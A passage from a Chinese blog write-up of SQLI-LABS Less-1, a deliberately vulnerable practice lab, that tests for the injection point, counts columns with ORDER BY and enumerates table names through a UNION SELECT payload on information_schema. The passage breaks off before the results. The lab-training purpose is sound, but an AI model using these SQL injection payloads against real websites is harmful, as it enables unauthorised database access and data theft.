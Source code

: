 ```yaml
---
title: 各labs速通
tags:
  - labs
  - 作业
categories: 
  - 作业
  - 各LabsWP
description: 各个Labs速通手册
excerpt: 各个Labs速通手册
typora-root-url: 各labs速通
abbrlink: 24231
date: 2022-03-25 13:03:51
---
```


# SQLI-LABS

## LESS-1

先测注入点，`id=0 or 1=1`时无返回，`id=0'`出现报错页面，证明是一个字符型的注入。

测列数，`id=1' order by 3%23`，返回正常，`id=1' order by 4%23`，返回错误，说明列数为3。

![image-20220325142621880](./image-20220325142621880.png)

![image-20220325142638449](./image-20220325142638449.png)

接下来通过联合注入判断回显位置：`id=0%27/**/union/**/select/**/1,2,3/**/%23`：

```html
<font size='5' color= '#99FF00'>Your Login name:2<br>Your Password:3</font>
```

可以发现2，3均被回显，于是接下来通过注入获取表名，表名存储在information_schema中的columns表中，列名为table_name。

稍作解释如下，在information_schema的columns表中：

| 列名         | 数据含义     |
| ------------ | ------------ |
| table_name   | 表名         |
| table_schema | 表所在数据库 |
| column_name  | 列明         |

请求如下：

`id=0%27/**/union/**/select/**/1,2,group_concat(distinct/**/table_name)/**/from/**/information_schema.columns/**/where/**/table_schema=database()%23`

可以得到：

